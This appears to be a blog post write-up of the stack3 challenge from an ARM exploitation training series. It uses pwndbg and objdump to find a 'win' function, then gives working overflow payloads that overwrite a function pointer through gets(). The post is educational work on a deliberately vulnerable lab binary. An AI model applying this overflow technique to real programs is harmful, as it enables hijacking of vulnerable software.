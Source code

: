 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part IV"
---
```


This time the goal is to make the program print the message
`"code flow successfully changed"`.<!--more-->

## A manual `xref`

Let's see where this message is stored:

```nasm
pwndbg> search "code flow successfully changed"
stack3          0x10560 0x65646f63 /* 'code flow successfully changed'*/
stack3          0x20560 0x65646f63 /* 'code flow successfully changed'*/
```

And from where the executable makes a reference to it? In other
words, where in the code segment this address is stored?

```nasm
pwndbg> search -4 --executable 0x10560
stack3          0x10490 0x10560
stack3          0x10c6c 0x10560
stack3          0x20490 0x10560
```

To summarize the message (and array of chars) is stored at 0x10560
and the address 0x10560 is stored in 0x10490, 0x10c6c and 0x20490.

These addresses are the `char*` that the program must load into a
register to do a call to `printf` or `puts`.

Let's assume that one of those addresses is loaded in a register using an
instruction like this:

```nasm
<???>     ldr   r?, [pc, #offset?]
```

It is a reasonable assumption: the rest of the challenges so far used
this instruction.

We don't know neither which register will be using nor the offset so we
will have to guess.

Let's see what we can find with `objdump` and `grep`:

```nasm
pi@raspberrypi:~$ objdump -d stack3 | grep "ldr.*r[0-9], \[pc"
   10374:       e59f000c        ldr     r0, [pc, #12]   ; 10388 <_start+0x34>
   10378:       e59f300c        ldr     r3, [pc, #12]   ; 1038c <_start+0x38>
   10390:       e59f3014        ldr     r3, [pc, #20]   ; 103ac <call_weak_fn+0x1c>
   10394:       e59f2014        ldr     r2, [pc, #20]   ; 103b0 <call_weak_fn+0x20>
   103b4:       e59f301c        ldr     r3, [pc, #28]   ; 103d8 <deregister_tm_clones+0x24>
   103b8:       e59f001c        ldr     r0, [pc, #28]   ; 103dc <deregister_tm_clones+0x28>
   103c8:       e59f3010        ldr     r3, [pc, #16]   ; 103e0 <deregister_tm_clones+0x2c>
   103e4:       e59f1024        ldr     r1, [pc, #36]   ; 10410 <register_tm_clones+0x2c>
   103e8:       e59f0024        ldr     r0, [pc, #36]   ; 10414 <register_tm_clones+0x30>
   10400:       e59f3010        ldr     r3, [pc, #16]   ; 10418 <register_tm_clones+0x34>
   10420:       e59f4018        ldr     r4, [pc, #24]   ; 10440 <__do_global_dtors_aux+0x24>
   10448:       e59f0024        ldr     r0, [pc, #36]   ; 10474 <frame_dummy+0x30>
   10460:       e59f3010        ldr     r3, [pc, #16]   ; 10478 <frame_dummy+0x34>
   10484:       e59f0004        ldr     r0, [pc, #4]    ; 10490 <win+0x14>
   104c8:       e59f0018        ldr     r0, [pc, #24]   ; 104e8 <main+0x54>
   104f4:       e59f604c        ldr     r6, [pc, #76]   ; 10548 <__libc_csu_init+0x5c>
   104f8:       e59f504c        ldr     r5, [pc, #76]   ; 1054c <__libc_csu_init+0x60>
```

These two lines are interesting:

```nasm
   10484:       e59f0004        ldr     r0, [pc, #4]    ; 10490 <win+0x14>
   104c8:       e59f0018        ldr     r0, [pc, #24]   ; 104e8 <main+0x54>
```

And the winner is 0x10484!

```python
>>> 0x10484 + 0x4 + 0x8
0x10490
```

See how 0x10484 the address of the `ldr` instruction plus the offset
`0x4` plus 0x8 bytes yields an address (0x10490) that we found before, a
`char*`.

If we dereference it we will see the address of the message:

```nasm
pwndbg> x/1wx 0x10490
0x10490 <win+20>:       0x00010560

pwndbg> x/1bs 0x00010560
0x10560:        "code flow successfully changed"
```

So, our target is:

```nasm
pwndbg> pdisass 0x10484-8
 ► 0x1047c <win>        push   {fp, lr}
   0x10480 <win+4>      add    fp, sp, #4
   0x10484 <win+8>      ldr    r0, [pc, #4]
   0x10488 <win+12>     bl     #puts@plt <puts@plt>

   0x1048c <win+16>     pop    {fp, pc}
```

### A comment

This is not the only way to do it.

I could search for a `puts` call which whole be more likely to be the
one that we are looking for:

```shell
pi@raspberrypi:~$ objdump -d stack3 | grep "puts"
00010324 <puts@plt>:
   10488:       ebffffa5        bl      10324 <puts@plt>
```

I could look which functions are available:

```nasm
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x000102ec  _init
0x0001030c  printf@plt
0x00010318  gets@plt
0x00010324  puts@plt
<...>
0x0001047c  win
0x00010494  main
<...>
```

I could use IDA or [Radare2](https://rada.re/n/radare2.html) or similar
and do a `xref`...

Or I could just read what is the goal from the
[challenge](https://azeria-labs.com/part-3-stack-overflow-challenges/).

I preferred a longer path to explore more the commands of `pwndbg`
and stress a little more my brain.

Otherwise it wouldn't be fun :)

## Let's jump

This is the `main` function:

```nasm
pwndbg> pdisass &main 9
 ► 0x10494 <main>       push   {fp, lr}
   0x10498 <main+4>     add    fp, sp, #4
   0x1049c <main+8>     sub    sp, sp, #0x50
   0x104a0 <main+12>    str    r0, [fp, #-0x50]
   0x104a4 <main+16>    str    r1, [fp, #-0x54]
   0x104a8 <main+20>    mov    r3, #0
   0x104ac <main+24>    str    r3, [fp, #-8]
   0x104b0 <main+28>    sub    r3, fp, #0x48
   0x104b4 <main+32>    mov    r0, r3
   0x104b8 <main+36>    bl     #gets@plt <gets@plt>

   0x104bc <main+40>    ldr    r3, [fp, #-8]
   0x104c0 <main+44>    cmp    r3, #0
   0x104c4 <main+48>    beq    #main+72 <main+72>

   0x104c8 <main+52>    ldr    r0, [pc, #0x18]
   0x104cc <main+56>    ldr    r1, [fp, #-8]
   0x104d0 <main+60>    bl     #printf@plt <printf@plt>

   0x104d4 <main+64>    ldr    r3, [fp, #-8]
   0x104d8 <main+68>    blx    r3
```

So instead of a cookie like in the
[stack0](/book-of-gehn/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html)
or [stack1](/book-of-gehn/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-II.html)
we have the address of a function.

{% marginnote
'`blx r3` is an unconditional jump to an absolute address
([docs](https://developer.arm.com/documentation/dui0068/b/arm-instruction-reference/arm-branch-instructions/blx?lang=en)).
<br />
That&apos;s why it works.
' %}

The address is initialized to zero but due to a stack overflow we can
write an arbitrary address, in particular, the address of `win`:
0x0001047c

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x7c\x04\x01\x00' | ./stack3
calling function pointer, jumping to 0x0001047c
code flow successfully changed
```

We could also jump to the middle of `win`, to 0x00010484, and we will
have the same result. The only problem is that the program will execute
the *epilogue* of `win` **without** having executed its *prologue*.

{% marginnote
'Does this ring some bells? This is the base of *return oriented
programming* or ROP.
' %}

The result? `pop {fp, pc}` will restore `pc` to the next element in the
stack which most likely will not be a valid address. Happy segfault!

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x84\x04\x01\x00' | ./stack3
calling function pointer, jumping to 0x00010484
code flow successfully changed
Segmentation fault
```

<!-- stuff -->

<script>
function fix_asm_syntax(ev) {
    // pip install selectq
    //   cond = (val('text()') == 'blt') | (val('text()') == 'b') | (val('text()').startswith('mov')) | ...
    //   div = sQ.select('div', attr('class').contains('language-nasm'))
    //   xpath = div.select('span', cond)

    // Make some instructions "keywords"
    var xpath = ".//div[contains(@class,'language-nasm')]//span[(((text() = 'blt') or (text() = 'b')) or starts-with(text(), 'mov')) or starts-with(text(), 'ldm') or starts-with(text(), 'stm') or starts-with(text(), 'ldr') or starts-with(text(), 'bx') or starts-with(text(), 'bl') or starts-with(text(), 'bne') or starts-with(text(), 'mvn') or starts-with(text(), 'beq')]";
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.add('k'); // keyword
        el.classList.remove('n'); // noun
    }

    // Remove the 'err' class
    var xpath = ".//div[contains(@class,'language-nasm')]//span[@class='err']"
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.remove('err'); // syntax error
    }

    // Remove the 'err' class
    var xpath = ".//div[contains(@class,'language-python')]//span[@class='err']"
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.remove('err'); // syntax error
    }
}

document.addEventListener('DOMContentLoaded', fix_asm_syntax);
</script>
